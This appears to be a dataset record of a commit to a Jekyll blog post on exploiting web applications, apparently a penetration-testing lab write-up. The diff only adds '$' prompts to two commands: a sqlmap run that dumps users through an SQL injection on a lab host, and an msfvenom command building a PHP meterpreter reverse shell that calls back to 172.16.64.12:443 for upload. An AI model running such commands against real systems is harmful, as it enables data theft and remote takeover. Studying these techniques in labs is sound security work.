

Before and after one commit to a56z/a56z.github.io, a Jekyll site: the page built from _posts/2021-02-13-exploiting-webapplications.markdown, in a window 1280 px wide and 900 px high, scrolled down 11017 px. Shown: the part 169-451 px from the top of the window, without its empty margins (308-971 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; Markdown is read by kramdown in place of the engine named in the settings.

Commit message:
Update 2021-02-13-exploiting-webapplications.markdown

````diff
--- a/_posts/2021-02-13-exploiting-webapplications.markdown
+++ b/_posts/2021-02-13-exploiting-webapplications.markdown
@@ -548,7 +548,7 @@ Great!
 Ok, let's sqlmap this now
 
 ```bash
-sqlmap -u http://172.16.64.92/72ab311dcbfaa40ca0739f5daf505494/tracking.php?id=1 --users
+$ sqlmap -u http://172.16.64.92/72ab311dcbfaa40ca0739f5daf505494/tracking.php?id=1 --users
 ```
 Ok, SQL Injection vulnerability is officially confirmed, let's dump the tables.
 
@@ -677,7 +677,7 @@ Remember tha we need to run metasploit as root if we want to listen on ports in
 Ok, let's create the meterpreter php file
 
 ```bash
-msfvenom -p php/meterpreter_reverse_tcp lhost=172.16.64.12 lport=443 -o shell.php
+$ msfvenom -p php/meterpreter_reverse_tcp lhost=172.16.64.12 lport=443 -o shell.php
 ```
 
 We can upload shell.php the same way as php.php
````
